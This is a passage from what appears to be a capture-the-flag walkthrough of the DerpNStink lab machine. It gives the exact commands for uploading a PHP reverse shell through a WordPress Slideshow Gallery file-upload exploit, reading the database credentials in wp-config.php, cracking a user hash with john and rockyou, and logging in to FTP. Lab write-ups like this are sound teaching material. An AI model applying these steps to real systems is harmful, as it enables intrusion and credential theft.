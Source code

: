 ```
  |      - http://seclists.org/bugtraq/2014/Sep/1
  |      - http://packetstormsecurity.com/files/131526/
  |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_slideshowgallery_upload
```

It seems not much can be done without authentication, so I went to wp-admin and enumerated the username *admin* as a valid user...and in the process also discovered that the password is *admin*..derp! Now I could use an [exploit for the authenticated arbitrary file upload](https://www.exploit-db.com/exploits/34681) with <code>python gallery.py -t http://derpnstink.local/weblog/ -f ~/Desktop/php-reverse-shell.php -u admin -p admin</code>, and you can find the uploaded shell at http://derpnstink.local/weblog//wp-content/uploads/slideshow-gallery/php-reverse-shell.php

From your new shell, if you look inside <code>/var/www/html/weblog/wp-config.php</code>, you can find the MySQL credentials:

```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Inside <code>/var/www/html/php/info.php</code> there is a line stating that there's a PHPMyAdmin interface:

```
/* management interface can be found at /phpmyadmin
```

I went to http://derpnstink.local/php/phpmyadmin/ and used the credentials to get in the wordpress database and get 2 users and hashes:

{% img center /images/pentest/derpnstink/users.png 'users' 'users' %}

We already know the admin credentials, so I used john and the rockyou.txt wordlist to crack the hash and get the password *wedgie57* for user *unclestinky*. My first move was to try SSH'ing in, but public key authentication was configured. That left the FTP, and I was able to log in with the credentials *stinky*:*wedgie57* (there was no unclestinky user configured on the system)

On the FTP, we find a folder with some files that I downloaded on my machine for a better look: <code>wget -r ftp://derpnstink.local/files --ftp-user=stinky --ftp-password=wedgie57</code>

```
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    5 1001     1001         4096 Nov 12  2017 files
226 Directory send OK.
ftp> ls files
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Nov 12  2017 network-logs
drwxr-xr-x    3 1001     1001         4096 Nov 12  2017 ssh
-rwxr-xr-x    1 0        0              17 Nov 12  2017 test.txt
drwxr-xr-x    2 0        0            4096 Nov 12  2017 tmp
```
